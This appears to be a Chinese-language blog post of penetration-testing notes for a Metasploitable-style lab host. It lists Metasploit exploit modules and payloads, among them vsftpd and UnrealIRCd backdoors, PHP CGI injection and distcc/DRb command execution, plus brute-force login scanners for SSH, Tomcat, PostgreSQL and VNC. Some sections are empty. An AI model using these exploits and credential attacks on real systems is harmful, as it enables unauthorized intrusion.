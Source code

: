 ```yaml
---
layout: post
title:  "msfconsole"
date:   2018-12-04 00:00:01 +0800
categories: linux
tags: msfconsole
description: ssh遇到问题集合
---
```

3.1	Vsftp 2.3.4 版本

Module：exploit/unix/ftp/vsftpd_234_backdoor

Payload：cmd/unix/interact

3.2	Web服务（80端口）

输入参数：

3.3	Php CGI注入

Module：exploit/multi/http/php_cgi_arg_injection

Payload：php/meterpreter/bind_tcp

3.4	SMB目录共享

139端口，445端口这两个都是smb类型的，是共享服务，首选我们需要知道它的共享目录有哪些

Module：auxiliary/scanner/smb/smb_enumusers

Module：auxiliary/admin/smb/samba_symlink_traversal

port 22 search ssh

use auxiliary/scanner/ssh/ssh_login

show options

set rhosts 192.168.190.130

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

run


3.5	Msfable后门

telnet 192.168.190.130

3.6	JAVA反序列化



3.7	Distccd服务远程命令(不建议)

Module：exploit/unix/misc/distcc_exec

Payload：cmd/unix/bind_perl

3.8	Postgresql弱密码

use auxiliary/scanner/postgres/postgres_login

3.9	VNC服务

port 5900 vnc

use auxiliary/scanner/vnc/vnc_login

3.10	IRC服务

port 6667 IRC

use exploit/unix/irc/unreal_ircd_3281_backdoor

3.11	Tomcat服务

use auxiliary/scanner/http/tomcat_mgr_login

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

set rport 8180


3.12	Drb服务

Module：exploit/linux/misc/drb_remote_codeexec

Payload：cmd/unix/bind_perl

3.13

redis

./redis-cli -p 30000 -h 192.168.190.130

info

3.14

echo envi|nc 192.168.190.130 2181
